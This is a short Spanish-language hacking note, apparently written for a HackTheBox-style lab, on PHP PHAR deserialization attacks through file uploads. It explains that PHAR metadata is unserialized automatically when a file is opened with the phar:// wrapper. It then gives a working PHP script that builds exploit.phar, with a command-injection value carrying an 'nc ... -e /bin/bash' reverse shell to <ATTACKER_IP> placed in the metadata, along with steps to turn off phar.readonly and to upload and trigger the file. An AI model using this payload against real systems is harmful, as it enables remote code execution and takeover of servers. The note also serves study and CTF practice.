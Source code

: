 ### INFO

- PHAR es una extensión de PHP.
- Permite guardar una aplicación entera PHP dentro de un archivo.
- Es similar a los JAR de java.
- Se acceden a los archivos dentro del mismo usando el wrapper phar://archivo

### Explotación

- Los phar tienen muchas propiedades, entre ellas la que nos es más importante es la metadata.
- Según la documentación de PHP (https://www.php.net/manual/en/phar.getmetadata.php) toda variable suceptible de ser serializada califica como metadata.
- Hasta php 8.0 toda metadata es deserializada de manera automática cuando se parsea un phar.
- Parsear un phar consta de llamar al archivo con el wrapper phar://
- Esto funciona incluso cuando los archivos son subidos con otras extensiones como JPG.


A modo de ejemplo, supongamos que encontramos un file upload, podríamos generar un phar con el siguiente procedimiento:
1) Creamos un archivo .php con el siguiente código:

        <?php
        include('UserSettings.php');
        
        $phar = new Phar("exploit.phar");
        
        $phar->startBuffering();
        
        $phar->addFromString('0', '');
        $phar->setStub("<?php __HALT_COMPILER(); ?>");
        $phar->setMetadata(new \App\Helpers\UserSettings('"; nc -nv <ATTACKER_IP> 9999 -e /bin/bash;#', 'attacker@htbank.com', '$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda', 'default.jpg'));
        
        $phar->stopBuffering();


2) Lo ejecutamos y este nos va a crear el archivo exploit.phar
#####  Si tenemos el siguiente error:
    PHP Fatal error:  Uncaught UnexpectedValueException: creating archive "exploit.phar" disabled by the php.ini setting phar.readonly in XXXXX
    Stack trace:
    #0 XXXXX: Phar->__construct()
    #1 {main}
      thrown in XXXXX on line XX

##### Podemos solucionarlo cambiando la propiedad phar.readonly = On a Off dentro del archivo:
    /etc/php/<php version>/cli/php.ini

3) Subimos el archivo y buscamos llamarlo con el wrapper phar://
